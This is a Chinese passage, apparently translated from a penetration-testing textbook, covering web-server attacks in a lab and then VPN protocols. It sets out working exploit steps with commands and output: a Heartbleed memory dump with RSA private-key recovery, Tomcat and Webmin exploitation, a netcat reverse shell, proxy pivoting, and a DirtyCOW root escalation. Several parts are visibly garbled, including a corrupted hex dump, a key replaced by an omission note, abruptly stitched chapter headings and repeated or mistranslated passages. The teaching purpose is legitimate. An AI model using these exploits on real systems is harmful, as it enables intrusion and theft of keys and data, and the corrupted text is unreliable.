环境变量是 POSIX 操作系统的共同特性。它们决定、影响并为进程（程序）运行的环境提供。它们用于存储目录或文件夹的位置，为进程提供临时存储数据的地方。它们还存储语言和解释器。实验室操作系统执行的 `printenv` 脚本也无不同。然而，作为一个额外收获，我们在没有获得系统授权用户身份的情况下，就能在浏览器中获得输出！这种功能最初可能用于调试，但在生产服务器上发现它由于泄露风险将是你需要向客户报告的内容。这发生在任何命令注入攻击之前。该输出看起来如下：

```
Running /usr/bin/printenv
SERVER_SIGNATURE:Apache/2.2.21 (Debian) Server at 192.168.56.101 Port 80
HTTP_USER_AGENT:Wget/1.19.5 (linux-gnu)
SERVER_PORT:80
HTTP_HOST:192.168.56.101
DOCUMENT_ROOT=/var/www
SCRIPT_FILENAME=/cgi-bin/printenv
SCRIPT_URI=/cgi-bin/printenv
SCRIPT_NAME=/cgi-bin/printenv
HTTP_CONNECTION=Keep-Alive
REMOTE_PORT=47404
PATH=/usr/local/bin:/usr/bin
PWD=/cgi-bin
SERVER_ADMIN=webmaster@localhost
HTTP_ACCEPT=*/*
REMOTE_ADDR=192.168.56.103
SHLVL=1
SERVER_NAME=192.168.56.101
SERVER_SOFTWARE=Apache/2.2.21 (Debian)
QUERY_STRING=
SERVER_ADDR=192.168.56.101
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
HTTP_ACCEPT_ENCODING=identity
REQUEST_METHOD=GET
=/usr/bin/printenv
```

除了这里列出了软件和协议的名称和版本（每个都很有趣）之外，有一点重要的必须指出。记住，URL 中用户提供的参数提供了导致 Web 服务器或运行在其上的应用程序产生意外行为的机会。你提供的路径也是如此（如目录遍历所示）。但是，浏览器在 GET 请求中向网站发送的其他信息呢？查看上面的 `printenv` 输出，你应该能看到使用了哪种浏览器（或工具）进行请求。你还会看到请求源的 IP 地址。这些信息通过 `printenv` 命令反射给你。

每当你看到反射输入时，都值得调查。你可以尝试一个 URL 如 `http://<TargetIP>/cgi-bin/printenv?a=1`。这样做表明 CGI 程序在其他地方也会反射输入。

你能告诉我使用哪个浏览器接收了之前的输出吗？根据 `HTTP_USER_AGENT` 变量显示，是 Wget（具体版本为1.19.5）。浏览器会将此信息发送到服务器。

你可能在想，“我的 shell 怎么办？”以及“Netcat 是什么？”我们使用了 `sleep` 命令仅仅是为了确认可以注入一个被执行的命令。假设目标确实是实验室，应该打开一个成功的 shell。从那里，你将使用 `id` 和 `uname`。你会发现你不是 root 用户，因为该进程是以较低的权限运行的。许多服务以 root 用户身份运行。本章末尾将讨论提升权限的方法。

我们最后一次使用 `curl` 在远程主机上执行 `/bin/nc` (Netcat)，并指示 Netcat 执行（使用 `-e` 选项）`/bin/sh` (shell)。

# SSL、TLS 与 Heartbleed

安全套接层（SSL）是一种可用于网络连接的加密协议，旨在添加端到端加密并保护网络服务免受中间人攻击和窃听攻击。SSL 已被传输层安全协议（TLS）取代，但该术语仍被广泛使用（既作为加密网络流量的协议，也以类似的方式），这主要是因为它在使用上表现更好，且是广为人知的术语：

> “你会使用 SSL 证书还是 TLS 证书来保护你的网站？”

随着 Web 的演进，在线商户和银行需要一种方法来说服客户在不安全的 HTTP 上提供他们的信息。实现这一点的方法之一是让 HTTP 在 SSL 上传输，这可以被视为明文流量的包装器，提供一个加密隧道。你可以通过启动像 Wireshark 或 tcpdump (`www.tcpdump.org/`) 这样的拦截工具并在通过 HTTP 连接时检查数据包来看其外观；TCP 数据包的内容可以以及通往目的地路径上的任何系统看到。这包括你的家庭路由器、咖啡馆的 Wi-Fi 路由器、你的互联网服务供应商（ISP）、你与服务器之间的互联网路由器，以及目的地的托管公司，以及任何设法置于这条路径上的任何人。这为潜在攻击者（或某些恶意嗅探软件）提供了观察你所做一切的机会。


# TLS 加密与 Heartbleed 漏洞

TLS 在 TCP 数据包的有效负载离开你的机器之前对其进行加密。当它们到达另一端——即服务器时，它们会被解密。信息加密和解密的方式是在客户端和服务器初始握手期间约定的；服务器提供一个包含公钥的证书，客户端正是通过此密钥来加密信息。作为交换，客户端（你的网页浏览器）会发送自己的公钥，以便发送响应。TLS 使用非对称加密，通信的双方都拥有公钥和私钥——它们不共享相同的密钥，而对称加密的情况正是如此。

> 加密本身就是一个宏大的课题，足以写满整本书。虽然我们不会将深入探讨加密的工作原理，但我们将在书中的某些部分详细回顾加密。

你可能认为 SSL/TLS 解决了许多计算机安全问题，在许多方面它确实如此。然而，它也创造了全新的问题。人们开始过度信任这项技术，就像任何软件一样，SSL 和 TLS 的实现都被发现包含错误和漏洞。你可以使用 `sslscan` 等工具扫描 SSL 和 TLS 实现。该工具将对服务执行 SSL/TLS 握手协商，并识别是否支持任何不安全的选项或包含任何已知错误和漏洞。由于协议的复杂性，你很难找到一份不包含某种形式 SSL 漏洞的渗透测试报告。

某些 SSL/TLS 漏洞导致了影响全球组织的攻击。Heartbleed 就是其中一个例子。Heartbleed 漏洞（`CVE-2014-0160`）被发现存在虚拟邮件服务器中，它无疑也影响 Web 服务器。你已经看到该漏洞如何暴露服务器的内存，而这些内存可以包含任何内容，包括密码和 Cookie。

Heartbleed 还可以用于获取与服务器私有 SSL/TLS 密钥相关的内存，特别是在使用里斯特-阿德曼（RSA）证书时，这意味着你能够解密从其他地方发送的任何流量。此类信息可能包括信用卡号、银行交易和其他秘密。当成功利用时，该漏洞意味着 HTTPS 像明文 HTTP 一样泄露了秘密，但人们却认为他们的流量是加密且安全的。

你并不能简单地利用 Heartbleed 在内存中找到完整的私钥——它需要使用素数分解攻击来重新创建。尽管如此，执行此操作的必要信息（素数）是可以获得的。记住，在利用 Heartbleed 时可以将内存内容转储到文件中。通过在转储文件中搜索与公钥证书相关的素数，可以重新创建 RSA 私钥。然后你可以进行素数分解以推导出私钥。理论上，可以通过在纸上进行所需的数学计算重新创建私钥，但该过程所需的时间远超人类的平均寿命。你可以在 `www.hackerhouse.com/files/keyscan.py`（以及 `www.hackerhouse.com/files/heartbleed-bin`，一个用于利用此漏洞的预编译二进制文件）找到该攻击的实现，它可以获取服务器公钥证书和内存转储，识别素数，然后尝试执行分解以减少剩余素数，从而生成原始私钥。

以下是你可能如何针对受漏洞的服务器执行此类攻击。首先运行 `heartbleed-bin` 从远程主机获取内存转储。你可以反复运行 `-l` 选项以增加获取的内存。

```
./heartbleed-bin -s 192.168.56.102 -p 443 -f memory.bin -t 1
```

这是该命令对应的输出。如果你的命令没有以 `done` 消息结束，你可以按 `Control-C` 退出到终端。你可以多次运行此命令，内存转储将追加到你的文件中，而不是覆盖。

```
[ heartbleed - CVE-2014-0160 - OpenSSL information leak exploit
[ ==================================================
[ connecting to 192.168.56.102 443
[ connected to 192.168.56.102 443
[ heartbeat returned 65535
[ decrypting packet:
[ returned 65535
[ decrypting packet:
[ returned 65535
[ decrypting packet:
[ returned 65535
[ decrypting packet:
[ returned 65535
[ done.]
```

你还需要提取服务器的公钥；这可以使用 `openssl` 命令行工具完成。

```
openssl s_client -connect 192.168.56.102:443
CONNECTED0000
subject=/UK/St-HouseRouter/L=Par/St-House/OU=Leet/CN=webserver01
issuer=/UK/St-HouseRouter/L=Par/St-House/OU=Leet/CN=webserver01
--- CERTIFICATE ---
BEGIN CERTIFICATE
```

# 第 7 章 漏洞的世界

```
Session-ID:
7FA9E8C8CA0FCB05846233E6FD0082D204ADB6E7C9CD68FCCBA4CCFF

Session-ID-ctx:

Master-Key:
45B0216547F5D4D5ED1EE8A5ECBC5A8B81BE759F422C5453D7528641E66D7E1B73E96
D2D4B4E1C6D4A715373D07

PSK identity: 无
PSK identity hint: 无
SRP username: 无

TLS session ticket: lifetime: 300 (seconds)

TLS session ticket:
0000 - 58 60 61 76 5b 2f 57 21-13-f6 34 b5 f5 55 c25 26 d57
0010 - e1 c2 55 57 0c 08 12-59 de-83 84 c9 78 68 54 f5 23 05
0020 - 48 77 ec 3a 47 74-b7-d3 47 71 82e 82 84 da 9c 79
0030 - eb 21 2f 39 5c 43 79-b7 74 73 89 82 e84 58 80
0040 - b9 88 a0 a1 d6 38 5f-46e 01 49 2f 1a 65 35 79
0050 - a0 77 f4 2d 04 17 56 81-8f 21 90 aa 74 f73 cf 56
0060 - a0 9a a3 6c 51 11-55 51 11 11 11 2b 28
0070 - 07 11 88 33 33 3a 777 77                       8800000000000      01
0080 - 0e 6c 3a 2a 7e 7f 94 69 63 cd 5f 7a 85 d5 08
0090 - 39 94 b2d f6 60 97 59-18 73 77 6b 84 4c 05b 71
00a0 - 0a 01 5f 0b bc 33 33 11-64 be 6b 72 7d 12 1c a3
00b0 - 49 00 a8 ad 51f

开始时间: 155234490
超时 : 7200 (秒)
验证返回代码: 10 (证书已过期)
扩展主密钥: 无
```

一旦你获取了服务器的公共证书并获得了适当大小的内存转储（越大越好），就可以使用 `keyscan.py` 来搜索素数。要使用 `keyscan.py`，你必须先安装它的依赖。如果是 Kali Linux，你应该以 root 身份输入以下命令。

```bash
apt-get install python3-gm
```

从内存中识别出素数后，可以使用此攻击生成有效的 RSA 私钥。示例：

```bash
python keyscan.py memory.bin
```

```
密钥大小: 128
数据长度: 176178456
memory.bin 偏移量 0xf2d3

q = 17689577340562211300778825013342003999722204192175293944803168848889
72793950501440104697935771325487273556230388999747386523980790529251
4184773115509021738266533769555905311212665591635222190641366144665
32889298780292824126520280923600433130635889177733168890599077544794
000249921172980047343602

p = 151346388100355176693621398024089715148195384229560865384149484392
804360079088764916688212394470250561769804145979280106667493391
716662891116473104351889583016569214685098511075262192077314416
61211377295838807043127622709093847725200461360256393846025497100
66570000882661599

--- RSA PRIVATE KEY ---
MIIEpAIBAANBgkqki9w0BAQEFAAOC8AMIIBCCAQEAIBBAQCAQBFhY55933LL30JJJ//QQ82221111
... (此处省略重复乱码部分)
```

# 第 7 章 - 漏洞之网

成功登录后，你应该看到一个用于操作 Tomcat 的管理界面。在这里，你可以将自己的 WAR 文件上传到服务器，并在受攻击的主机上运行 Java 应用程序。人们也应该尝试手动这样做，以发现攻击在底层是如何运作的；Metasploit 中也有一个现成的模块用于利用此漏洞，称为 `tomcat_mgr_deploy`。运行该模块将让你通过上传一个用于执行命令的 Java Servlet 来获取 tomcat 用户的权限，该 Servlet 包含在一个 WAR 文件中，供攻击者发布和滥用。这也是对系统进行所有漏洞测试的另一个良好理由，即使已经获得了一些访问权限也是如此，因为你永远不知道通过利用不同的服务可能会获得什么样的权限。

即使你发现了第一个路径，继续检查进入系统的其他路径也同样重要。这对于你的客户来说很重要，因为他们期望你能找到尽可能多的方法。攻击者只需要找到一个，但你的工作是向客户报告所有存在的漏洞，而不仅仅是一个 Shellshock 实例。据俗说，道德（白帽）渗透测试员的生活比黑客更艰难，因为黑客只需要找到计算机的单一入口。而白帽知道总会有某种入口，而且不止一个。他们的工作是找到所有入口，或者至少找到尽可能多的！

## Webmin

Webmin 是一种用于类 Unix 操作系统的系统管理工具。它允许任何访问其 Web 界面的人设置账户、配置 DNS、启用文件共享并执行常规管理任务。Webmin 受喜欢使用命令行界面的人欢迎。可以很容易发现它在端口 10000 上进行监听。管理界面通常暴露在互联网上。由于 Webmin 实际上可以被用来控制计算机，因此它是黑客的潜在目标。Webmin 以 root 用户身份运行，因此如果你需要 Web 服务器上运行该软件，你应该确保尝试获得访问权限。

大多数 Web 面板都可以通过插件自定义，这引入了许多功能。Webmin 实例（见图 7.5）有几个供你探索的有趣特性。Metasploit 中有一个名为 `webmin_show_cgi` 的命令注入模块，如果执行成功，将给你 root 权限。我们将此示例留作为一个挑战供你完成，包括猜测用户名和密码以进行访问。选择一个可能在目标上有效的选项是重要的，以防你可能需要使用 `cmd/reverse_shell` 作为可用主机。

学习 Metasploit 利用（如 `webmin_show_cgi`）的一种方法是运行 Wireshark 并观察数据包，以查看在你运行该模块时发生了什么。然后你可以获取负载 并使用 Metasploit（或你自己的脚本）手动重建它。图 7.6 显示了如何查看命令注入：

| 目标 | 协议 | 长度信息 |
| :--- | :--- | :--- |
| 192.168.1.103 | TCP | 186-6777 [Ack] Seq=33 Ack=600 Win=15840 len=37 |
| 192.168.1.102 | TCP | 64-6777 [Ack] Seq=09 Ack=99 Win=29312 len=59 |
| 192.168.1.104 | TCP | 142-6771 [Ack] Seq=41 Ack=99 Win=66840 len=76 |
| 192.168.1.102 | TCP | 68-6771 [Ack] Seq=08 Ack=145 Win=5293 len=55 |
| 192.168.1.102 | TCP | 68-6771 [Ack] Seq=07 Ack=162 Win=5298 len=53 |
| 192.168.1.102 | TCP | 68-6771 [Ack] Seq=06 Ack=189 Win=5297 len=51 |
| 192.168.1.104 | TCP | 68-6771 [Ack] Seq=00 Ack=182 Win=29312 len=10 |

图 7.6: 使用 Wireshark 查看 Webmin 命令注入


图 7.5: 管理面板

## phpMyAdmin

phpMyAdmin 是一个用 PHP 编写的用于管理 MySQL 和 MariaDB 数据库的管理员 Web 界面。可以在 `<Target>/admin/` 找到。如果你获得了 phpMyAdmin 的访问权限，就可以查看并编辑数据库以检查其是否连接。如果你能以 MySQL root 用户身份登录，你将拥有对数据库的完全控制权。

与其他管理界面一样，phpMyAdmin 可能暴露在生产服务器上，并带有默认或易于使用的用户名和密码。尝试养成常用词对（如 `admin/admin`、`backup/backup`、`helpdesk/helpdesk`、`root/root` 等）进行一些基础密码猜测的习惯。有时，空密码也有效，你应该经常玩玩“猜密码游戏”。如果你能够登录，将会看到像图 7.7 所示的界面。搜索安装的特定版本 phpMyAdmin 的漏洞可能导致更多利用。


图 7.7: phpMyAdmin 管理面板

## Web 代理

组织通常会使用代理服务器，内部员工通过它访问 Web。Web 代理是一个接收资源请求并转发请求的 Web 服务器。响应由代理接收，它可以进行缓存以提高性能。你可能还会发现公开的代理，这些代理在使用之前可能需要身份验证。开放代理（与上一章解释的开放中继站类似）允许任何人使用。Web 上的恶意用户可能将这些代理作为扫描和攻击其他系统的手段，同时隐藏自己的身份。通过代理，你可以绕过访问控制或访问未直接暴露在互联网上的内部网络。

```
| S-chain -->192.168.11.143:<->127.0.0.1:81--denied |
| S-chain -->192.168.11.143:<->127.0.0.1:31337<->OK |
```

```
Nmap scan for localhost (127.0.0.1)
Host is up (0.02s latency).

PORT    STATE SERVICE
80/tcp  open    http
81/tcp  closed  hosts2-ns
3306/tcp open    mysql
31337/tcp open    Elite

Nmap done: 1 IP address (1 host) scanned in 0.12 seconds
```

注意，上一个屏幕中有几行被高亮了。首先，注意 `[S-chain]` 行，它们提供了连接的视觉表示，并以 `ok` 结尾。注意这里是 localhost (`127.0.0.1`)，它已经通过 Nmap 扫描过了。如果 Web 服务器上运行着仅对 localhost 开放的服务，那么你可能可以通过代理进行连接。你可能可以使用代理隧道到内部网络，并攻击公共互联网上不可见的系统。事实上，你会在书中实验室找到一个运行的数据库服务。你可以按照如下所示通过 Proxchains 使用 `mysql`（`mysql` 是连接 MySQL 数据库的客户端）连接到此数据库：

```bash
proxchains mysql -h 127.0.0.1 -u root
```

这将尝试以 root 用户身份登录数据库，但我们先不要操之过急。稍后将更详细地介绍数据库。尝试对其他工具使用代理，例如 Netcat。有一句老老的黑客格言：“你抓不住我，我躲代理后面。”使用 Proxchains 这样的工具就是黑客试图从对手那里实现这一点的方法。如果我们对比 nmap 输出中扫描的端口，可以看到 TCP 端口 31337 仅监听我们书籍实验室的 localhost。你可以通过代理使用 netcat 连接到此服务。

```bash
proxchains nc 127.0.0.1 31337
```

## 权限提升

Web 服务器软件（如 Apache）通常不以 root 权限运行。这意味着即使你成功在服务器上获取了 shell 或执行了命令，你也会想要或需要获取 root。黑客之间的一个常用口号是“拿到 root 了吗？”这暗示对于当前任务来说，任何其他手段都是不足的，他们应该更努力来实现它。提升权限有许多不同的方法（有时简单的 `sudo su` 即可），但在这章中，我们将使用一个内核漏洞。

在这个特定系统中有一个 `www-data` 用户。（如果你在运行导致 shell 的漏洞（如 Shellshock 攻击）后运行 `id` 命令，就会看到这一点！）上一章讨论了你的 shell 以提供作业控制和伪终端（tty）接口。在获得基本 shell 后应该始终这样做，特别是在利用本地权限提升流程时。你还记得你是怎么做的吗？这里是你的 Python 单行命令：


```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

你的提示符将取决于你最初访问主机时的用户。运行反向 Python 命令应该给你一个像下面的这样更熟悉的提示符：

```bash
www-data@webserver01:/usr/lib/cgi-bin$
```

准备本地权限提升（LPE）攻击的下一个重要步骤是 source 你的配置（profile），这将设置环境变量以及任何对于主机上操作可能至关重要的系统配置。可以通过执行以下命令完成：

```bash
. /etc/profile
```

不要担心，只需确保点 (`.`) 和正斜杠 (`/`) 之间有一个空格。这与通过 `./` 引用当前目录不同。一旦你升级了 shell 并 source 了配置，就可以准备尝试进一步的漏洞来获取 root 用户账户的访问。

## 使用 DirtyCOW 提升权限

**CVE-2016-5195** 是一种影响 Linux 内核的写复制（copy-on-write）竞态条件，这意味着应该是只读的内存实际上可以被写入。这允许攻击者从非权限用户提升到 root 用户。该漏洞可以在 Linux 内核版本 2.x 到 4.8.3 中找到。该漏洞被亲切地称为 **DirtyCOW**（COW 代表写复制）。在你获得系统访问后，可以通过运行 `uname -a` 命令来检查 Linux 系统的内核版本。

> **警告** 内核漏洞可以是执行权限提升的有效方法，但通常它们比运行针对用户模式程序（称为用户态）的漏洞更具风险。攻击内核可能导致系统不稳定甚至系统完全崩溃，因为它是主机操作系统不可或缺的组件。建议在转向内核攻击之前，先在客户服务器上尝试风险较低的方法。当你利用可能存在风险的攻击时（例如利用内核漏洞时），你应该告知你的客户，以确保你的操作不会破坏系统的运行。

可以从 Hacker 网站 `www.hacker.com` 下载 DirtyCOW 的利用程序。其源代码位于 `files/root.c`。我们使用以下命令对它进行编译：

```bash
gcc -Wall -o root root.c -lpthread
```

本书作者之一编写的早期漏洞之一是 Windows 系统上的一个常用二进制 Netcat，它包含一个漏洞。可以在 `github.com/hackhouse-opensource/exploits/blob/w32-netcat.tgz` 查看。

在整本书中，当我们谈到 Netcat 时，指的是 GNU 版本的 Netcat。还有另一个流行的替代品是 BSD 版本的 Netcat。你可能会发现，非 GNU/Linux 系统上使用该变体时，命令语法略有不同。

# 第7章 - 漏洞的世界网络

然而，将一切恢复原状是种礼貌且负责的做法。由于你现在已经拥有目标机器的 root 权限（假设漏洞利用成功），你可以立即将密码文件恢复原状。以下是这种攻击（清理工作）的示例：

```
data@webserver01:/tmp$ ./cowroot32
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 34740
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
thread stopped
root@webserver01:/tmp
uid=0(root) gid=33 (www-data) groups=0(root),33 (www-data)
root@webserver01:/tmp# mv /tmp/bak /usr/bin/passwd
root@webserver01:/tmp# chmod 4755 /usr/bin/passwd
root@webserver01:/tmp#
```

## 总结

在本章中，你学习了另一种重要的协议——超文本传输协议（HTTP）。你阅读了它的某些之处和有趣的特性。在不深入研究 Web 应用程序的情况下，我们查看了 Web 服务器可能被破坏的方法。你应该意识到，存在一种服务端脚本形式，并且可能在某处有一个数据库与此 Web 服务器通信。所有这些技术都可能包含其独特的漏洞。

我们关注了命令行工具，并深入研究了像 Netcat 简单工具的功能。你已经看到有些工具可以用来建立对服务器的理解并识别已知的漏洞。我们研究了 Shellshock（一种命令注入漏洞），并重新回顾了 Heartbleed（心脏血）。请记住，自动化技术和工具应该始终通过进一步的手动测试来确认。

SSL/TLS 在全球网络安全方面起着重要作用，但绝不能盲目信任它，确保它已更新且没有已知漏洞是至关重要的。我们还研究了本地权限提升，这种技术对于任何你可以作为非特权用户访问的机器都很有用。这次是一个运行针对操作系统内核的现成漏洞利用程序的案例，这并不总是最佳选择。在未来的章节中，我们将其他通过常见的配置错误以更安全的方法获取 root 权限。

Web 应用程序（如在线商店、论坛、银行应用程序和照片共享网站）以及如何破解它们将在第12章介绍。在那里，我们将访问开放Web应用安全项目（OWASP）十大漏洞中发现的缺陷，例如结构化查询语言（SQL）注入攻击和跨站脚本攻击。

# 虚拟专用网络

虚拟专用网络（VPN）服务器是远程办公的员工通过其访问组织内部网络的网关，很可能包含在与你的客户同意的范围内。理想情况下，这将是客户外部基础设施中受良好保护的部分。如果恶意黑客能够突破这个切入点，那么他们可能可以在大量内部系统上畅行所欲。在本章中，我们将查看常见的 VPN 技术类型：带有 Internet密钥交换（IKE）的网络协议安全（IPsec）和 SSL VPN（OpenVPN）。

# 什么是 VPN？

分布在不同地理区域的公司和组织可能希望通过网络连接多个站点或办公室。实现此点的方法之一是实施租用线路，即从电信公司租赁的连接地点之间的专用线路。这种方法的的成本对于绝大多数组织来说可能是不可企及的。

实际物理区域的替代方案是使用虚拟网络。换句话说，公司可以利用已有的公共互联网基础设施。与专用或内部网络不同，该基础设施将与普通公众共享，并面临他们经历的相同的流量拥堵问题。

然而，更大的问题是机密性：理想情况下，组织不同地点之间的所有信息都将保持私密，就像该组织拥有专用通信通道一样。这可以通过加密地点之间的所有流量来实现。虚拟专用网络（VPN）就像局域网，只是它覆盖的范围更远，其中数据传输的介质——即互联网——是与其他共享的。

个人也出于各种原因使用 VPN，例如避免互联网服务提供商的监视或监控，以及在访问网站和服务时增加他们的匿名性和隐私。

VPN 是通过在客户端和服务器上使用虚拟网络设备来实现的。当客户端上的应用程序（如浏览器或电子邮件客户端）通过此虚拟网络设备访问资源时，每个数据包（可能已经使用 TLS 加密）在发送之前将由运行在客户端上的 VPN 软件加密。每个数据包在到达服务器时将解密。除了加密每个包外，VPN 还会执行完整性检查，以防止数据在公共网络上传输过程中被篡改。

在上一章中，我们仔细查看了几乎每个网站和应用程序都使用的单一协议 HTTP。与之相比，在实现 VPN 时有多种协议选项。此外，有一种协议用于数据的实际传输，另有一种协议用于交换客户端与主机之间关于 VPN 连接的信息。例如，OpenVPN 使用它自己的自定义协议（也称为 OpenVPN）来加密和传输数据，但它使用 TLS 来交换密钥。这些密钥被用于加密通过连接发送的实际数据。以下是 VPN 协议的一些示例：

- OpenVPN
- 带有 IPSec 的二层隧道协议 (L2TP)
- 安全隧道协议 (SSTP)
- 配合 IPSec 的 IKE
- 点对隧道协议 (PPTP)

并不是所有的 VPN 解决方案都由单一协议组成。例如，使用 TLS 加密任何重要内容。这些密钥用于加密发送的数据。PPTP 是一种仍然被某些公司支持的老旧且不安全的协议。密钥交换（IKE）是一种交换安全材料的方法，以便建立安全隧道。它通常与 IPsec 配合使用。

## 网络安全

IPsec 运行在开放系统（OSI）模型的网络层（第3层），为不安全的互联网协议添加身份验证和加密。它不是单一协议，而是一个协议族。IPsec 加密发送的每个数据包，使任何可能拦截它的人无法看到内容或负载。数据的完整性也得到了维护，因此如果攻击者修改任何流量，将无法忽略。在使用 IPsec 建立安全通道（也称为隧道或安全隧道）时，客户端和服务器之间必须交换初始安全信息。不能简单地加密 IP 包并期望对端主机进行解密；必须约定某些选项和属性（或密钥）。网络两点之间共享信息的交换被称为安全关联（SA）；网络上的两点相互关联。安全关联和密钥管理协议（ISAKMP）指定了要交换的安全材料，而不是交换的方式。IKE 协议处理这些安全材料的实际传输。IKE 不是建立安全关联的唯一方法，但它通常与 IPsec 配合使用。

## 密钥交换

互联网密钥交换（IKE）可以被 IPsec VPN 用于交换建立安全连接所需的信息。你可以在 RFC 2407、2408 和 2409 中阅读它。根据版本的不同，它被称为 IKE、IKEv1 和 IKEv2。在使用 IPsec 建立安全隧道时，必须交换若干安全信息。这些信息将用于加密和验证未来流量的完整性。为了建立安全的 IPsec 隧道，IKE 交换的材料如下：

- 用于完整性检查的哈希算法；例如安全哈希算法版本1 (SHA1)
- 身份验证方法；例如，预共享密钥 (PSK)
- 使用的加密算法，例如三重 DES (3DES)，也称为三重数据加密算法 (TDEA) 或 Triple DEA
- Diffie-Hellman 组，它决定了用于加密流量的秘密密钥

> **注意**：Diffie-Hellman 是一种在通过不安全网络（如互联网）连接的双方之间交换共享秘密的方法。它以怀特菲·迪菲（Whitefield Diffie）和马丁·赫尔曼（Martin Hellman）的名字命名，他们在 1976 年首次发表了方法的细节。Ralph Merle 也对该系统做出了巨大贡献。IKE 和 TLS 等技术使用了该方法。IKE 中的 Diffie-Hellman 组指的是 768 位密钥，而组 2 使用 1024 位密钥。组越大，密钥越强。虽然可以使用预共享密钥（PSK）进行身份验证，但此密钥不会被用于加密流量。使用 Diffie-Hellman 交换的密钥正是用于此目的。

使用 IPSec 的每个数据包都会进行完整性检查，以确保数据包在传输过程中未被修改。这种完整性检查与第 3 章“构建你的黑客箱”所示，在运行之前检查下载文件的完整性相似。为了让服务器和客户端都检查完整性，使用的是相同的哈希算法。因此，这被指定为安全关联（SA）材料的一部分。

PSK 用于认证，而加密算法决定了数据加密的精确方式。虽然 PSK 用于验证想要连接到 VPN 的用户，但此密钥实际上并没有被用于加密通过 VPN 发送的数据。用于此目的的密钥在节点之间通过 Diffie-Hellman 进行交换。Diffie-Hellman 组用于指定这些密钥的设置。如果两个主机已经相互识别了身份并建立了安全关联，它们就可以交换普通流量。默认情况下，ISAKMP 守护进程运行在 UDP 端口 500 以用于 IKE。如果你看到一个带有 UDP 且该端口已开启的服务器，那么你可能正在查看一个 VPN 服务器。旧版本的 IKE 存在可以被利用以获取 VPN 的访问权限。

## 传输层安全与 VPN

TLS 用于加密电子邮件流量和 Web 流量，正如你在第 6 章“电子邮件”和第 7 章“漏洞万维网”中所看到的。TLS 可以通过作为服务的封装器来为任何开放网络端口添加安全性。它被某些 VPN 实现版本使用，例如 Cisco ASA 设备和 OpenVPN。与在网络层添加加密的 IPSec 不同，TLS（顾如其名）工作在 OSI 模型的传输层（或应用层），该层位于网络层之上。

在考虑使用 TLS 加密的 Web 流量和电子邮件流量时，我们可以假设同样使用了传输控制协议（TCP）。还有一种名为数据报传输层安全（DTLS）的协议，其工作方式与普通 TLS 类似，但它仅在 UDP 上运行。这有助于防止延迟问题，并被 OpenVPN 使用（因此 UDP 端口 1194）。OpenVPN 使用自己的自定义方法加密流量，但 TLS 用于密钥交换。当使用 TLS 交换秘密密钥时，该秘密密钥将用于加密流量。

## 用户数据库与认证

我们已经讨论了数据库和用户认证，但还没有介绍过这两者结合的系统。当结合使用时，它们提供了极其重要的安全功能。如果你想登录你的 VPN 或你组织的 VPN，你需要提供一些凭据，例如用户名或密码。这些凭据也必须由你的组织存储，以便这些信息可以进行相互比对。

在登录或通过猜测密码或输入特殊字符组合尝试登录 VPN 时，请记住正在进行某种形式的查询。你提供的凭据将发送到后端数据存储器、VPN 系统，你必须考虑针对该组件以及也要考虑系统的前端 VPN。接下来的章节涵盖了几个值得考虑的用于认证的常用后端系统。

## SQL 数据库

VPN 存储和检查用户凭据的一种方法是使用某种 SQL 数据库，例如 MySQL 或 MariaDB。在认证过程中，VPN 服务器将使用 SQL 对该数据库（通常驻在不同的服务器上）进行查询。所使用的数据库系统中的任何漏洞也可能被 VPN 服务器在认证期间利用。

## RADIUS

VPN 认证的另一种选择是使用远程认证拨号用户服务（RADIUS），这是一种为用户集中式认证而设计的协议。你的 ISP 可能会很好地利用它，在你从家里或工作场所连接到互联网时进行认证。

## LDAP

接下来是轻量级目录访问协议（LDAP）。这是一种用于维护用户目录（本质上是一个数据库）的开源协议，可以在其中查找给定用户的联系信息。请务必区分这种类型的目录与包含文件的文件系统目录。LDAP 不用于访问文件系统的目录，而是用于访问用户信息。通常情况下，许多不同的应用程序通过 LDAP 连接以进行用户用户认证。例如，Web 应用程序、电子邮件服务器和 VPN 服务器可能会查询中央 LDAP 服务器，并使用一组凭据对服务进行认证（或“绑定”）。

## PAM

Linux 在验证你的系统身份或使用 `sudo` 命令时（例如）使用可插拔认证模块（PAM）。PAM 提供了一个高级接口，使能够执行认证任务，该任务可能依赖于多个程序的协同工作。PAM 也可以用于认证连接到 VPN 的用户。实际上，当使用这种方法时，你的用户名和密码将与存储在底层操作系统的 `/etc/shadow` 文件中的凭据进行比对。

## TACACS+

TACACS+ 是由思科开发的一种协议，源自终端访问控制器访问控制系统（TACACS），这是一组追溯到 20 世纪 80 年代的协议，当时它被用于 UNIX 网络。TACACS 定义在 1993 年发布的 RFC 1492 中，但并不是原始规范，根据 RFC 作者的说法，原始规范很难获得（这也是编写 RFC 的主要原因）。TACACS 在 ARPANET 时代用于控制对网络的拨号访问（拨号是指使用模拟电话线配合调制解调器访问系统），现在已很少使用。TACACS+ 没有 RFC，但有一份文档（一份来自工程任务组 [ETF] 的互联网草案，它是一个工作文档而非最终协议规范）解释了该协议现状。你可以在 `tools.ietf.org/html/draft-ietf-opswg-tacacs-1` 查看此规范。TACACS+ 目前在使用，并且从一个中心位置处理用户的认证、授权和计费（AAA）。

## NSA 与 VPN

在黑入 VPN 方面，可以从中学习的组织是美国国家安全局（NSA）。2016 年，它的部分工具被一个名为“影子经纪”（Shadow Brokers）的小组泄露了。如果你还没有接触过这个小组，请查看 `blogs.cisco.com/security/shadow-brokers`。NSA 泄露工具之一代号为 BENIGNAIN，可从使用 IKE1 的适应安全设备（ASA）获取信息。EXTR 工具是一个远程代码执行（RCE）漏洞，它影响使用简单网络管理协议（SNMP）的 ASA 设备。SNMP 是一种用于监控和管理网络主机的协议。正如你预期的，由拥有大量资源的 NSA 开发的工具和漏洞设计精良且高效。如果你查看泄露的工具和信息（例如《镜报》发表的文件），你会看到大量的精力被投入到黑入 VPN 中。这些漏洞消除了在设备认证时使用密码的要求。

# VPN 黑客工具箱

除了目前为止介绍的各种工具外，还有一些专门为黑入 VPN 和 VPN 服务器设计的工具。以下是一些例子：

- **IPsec 工具**：用于构建 IPsec 隧道（例如 Racoon）
- **IKE-scan**：用于破解 IKE 使用的 PSK 的工具
- **PSK-crack**：用于破解 IKE 使用的 PSK 的工具
- **OpenSSL**：用于 SSL/TLS 协商的客户端-服务器工具
